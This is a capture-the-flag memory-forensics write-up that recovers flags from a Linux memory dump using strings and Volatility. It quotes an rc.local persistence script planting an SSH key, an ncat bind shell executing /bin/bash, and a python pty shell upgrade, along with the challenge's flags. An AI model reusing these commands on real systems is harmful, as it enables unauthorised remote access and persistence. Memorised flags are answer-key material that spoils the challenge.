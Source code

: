 ```
.abrt-dbus           3271
```

So what is in this file ?

```
$ strings -d dump.mem | grep -A30 "/etc/rc.local"
#!/bin/sh
# Well played : c2hrQ1RGe3JjLmwwYzRsXzFzX2Z1bm55X2JlMjQ3MmNmYWVlZDQ2N2VjOWNhYjViNWEzOGU1ZmEwfQo=
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCxa8zsyblvEoajgtqciK2XAs1UwNAeV3RcXaacqicjzuad2jH7JQdIaqVW4jfEt8h7w+Rei1kZL/xqikGS/AGb2ZLqVSUKWF9afaeE850On4+c1A
0wu9nn/7N/t2QSnw71BZnvH35+qgENJzFGgFxJEsvZqbawFHD8B426qKFYD+LMAnnFtnrzFj8U+cewG6ODl0Obbe8yP/Awv0HYFdhK/IY+t7u2Ywrgp3bXF1l5m+Zk40BqpEYfFzhawYOc/tar1HqaJnYdvqHjwhZeDGYkIILvYt4veVc/DjVPX1UjLvlpWv1/AhmLAWgWyUORBwDjM5km0HjN/CY5kWoasXgd1jHD tw0phi@workstation

$ echo "c2hrQ1RGe3JjLmwwYzRsXzFzX2Z1bm55X2JlMjQ3MmNmYWVlZDQ2N2VjOWNhYjViNWEzOGU1ZmEwfQo=" | base64 -d
shkCTF{rc.l0c4l_1s_funny_be2472cfaeed467ec9cab5b5a38e5fa0}

```
Forth flag !

### Attacker

> We need to report this cyberattack. Please find out who is this asshole and what is one of the first thing he did !
> Retrieve :
>-     Attacker IP
>-     Local port used by the attacker
>-     The bash command using python

Following the manual:

>Whatever the exec mode, Ncat sets environment variables in the spawned program's environment that >describe the connection.
>NCAT_REMOTE_ADDR, NCAT_REMOTE_PORT
>  The IP address and port number of the remote host. In connect mode, it's the target's address; in listen mode, it's the client's address.
>NCAT_LOCAL_ADDR, NCAT_LOCAL_PORT
>  The IP address and port number of the local end of the connection.
> <cite><a href="https://nmap.org/ncat/guide/ncat-exec.html">nmap.org</a></cite>


So I searched for NCAT_REMOTE_ADDR and NCAT_LOCAL_PORT with strings, which gave me :
- NCAT_REMOTE_ADDR=192.168.49.1
- NCAT_LOCAL_PORT=12345

For the bash command line :
```
$ volatility --profile=Linuxsharkyx64 -f dump.mem linux_psaux
Volatility Foundation Volatility Framework 2.6
[..]
2779   1000   1000   /usr/libexec/gvfsd-metadata
2854   0      0      ncat -lvp 12345 -4 -e /bin/bash
2876   0      0      /bin/bash
2886   0      0      python -c import pty; pty.spawn("/bin/bash")
2887   0      0      /bin/bash
3196   0      0      vim /etc/rc.local
[..]
```
Here is the flag : shkCTF{192.168.49.1:12345:python -c 'import pty; pty.spawn("/bin/bash")'}
